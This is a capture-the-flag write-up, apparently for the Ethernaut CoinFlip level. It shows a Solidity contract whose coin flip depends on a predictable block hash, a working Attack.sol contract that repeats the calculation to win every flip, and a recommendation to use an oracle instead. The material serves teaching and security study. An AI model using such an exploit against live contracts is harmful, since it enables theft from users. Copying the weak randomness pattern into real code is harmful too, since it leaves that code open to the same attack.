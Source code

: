 **Description**
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

* CoinFlip.sol
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```



**Attack Scenario**
Attacker can always calculate the correct answer if they run the same algorithm in their attack function before calling the `flip` function.

- **Attack.sol**
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function consecutiveWins() external view returns (uint256);
    function flip(bool) external returns (bool);
}

contract Attack {
    ICoinFlip private immutable target;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = ICoinFlip(_target);
    }

    // call this function 10 times
    function flip() external {
        bool guess = _guess();
        require(target.flip(guess), "guess failed");
    }

    function _guess() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1 ? true : false;
    }
}
```

**Recommendation**
It recommended to not rely on `block.number` to generate randomness, consider using an oracle to generate randomness.
